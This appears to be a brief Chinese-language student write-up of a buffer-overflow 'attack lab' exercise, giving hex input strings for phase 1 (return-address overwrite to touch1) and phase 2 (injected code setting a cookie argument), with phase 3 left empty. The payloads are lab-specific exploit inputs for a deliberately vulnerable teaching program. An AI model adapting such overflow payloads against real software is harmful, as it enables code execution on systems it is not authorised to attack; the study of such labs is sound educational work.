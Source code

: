 # attck实验分析

## 1. Intro

## 2. Let's attck!

### Phase 1
```
31 32 33 34 35 36 37 38 39 40 31 32 33 34 35 36 37 38 39 40 31 32 33 34 35 36 37 38 39 40 31 32 33 34 35 36 37 38 39 40
c0 17 40 00 00 00 00 00         /* phase 1: address of touch1 */
```

### Phase 2
```
68 ec 17 40 00			/* pushq  $0x4017ec */
bf fa 97 b9 59			/* mov    $0x59b997fa,%edi */
c3						/* ret */
31 32 33 34 35 36 37 38 39 40 31 32 33 34 35 36 37 38 39 40 31 32 33 34 35 36 37 38 39
78 dc 61 55 00 00 00 00 /* address of injuction code */
```
这段代码会导致内部函数运行出错。


### Phase 3
```

```